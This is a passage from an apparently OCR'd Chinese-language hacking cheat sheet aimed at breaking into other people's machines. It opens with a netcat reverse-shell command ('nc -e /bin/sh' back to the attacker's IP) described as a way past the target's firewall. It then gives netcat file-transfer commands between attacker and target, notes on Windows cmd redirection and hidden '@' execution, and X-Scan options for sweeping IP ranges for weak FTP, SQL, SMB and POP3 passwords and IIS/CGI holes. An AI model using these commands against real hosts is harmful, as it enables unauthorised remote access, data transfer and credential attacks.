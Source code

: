 nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

备 注：

| 管道命令

< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令

@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中

\>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。

如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

八：

扫描工具：xscan.exe

基本格式

xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息

xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息

检测项目

-active 检测主机是否存活

-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）

-port 检测常用服务的端口状态

-ftp 检测FTP弱口令

-pub 检测FTP服务匿名用户写权限

-pop3 检测POP3-Server弱口令

-smtp 检测SMTP-Server漏洞

-sql 检测SQL-Server弱口令

-smb 检测NT-Server弱口令

-iis 检测IIS编码/解码漏洞

-cgi 检测CGI漏洞

-nasl 加载Nessus攻击脚本

-all 检测以上所有项目

其它选项

-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取

-l 显示所有网络适配器

-v 显示详细扫描进度
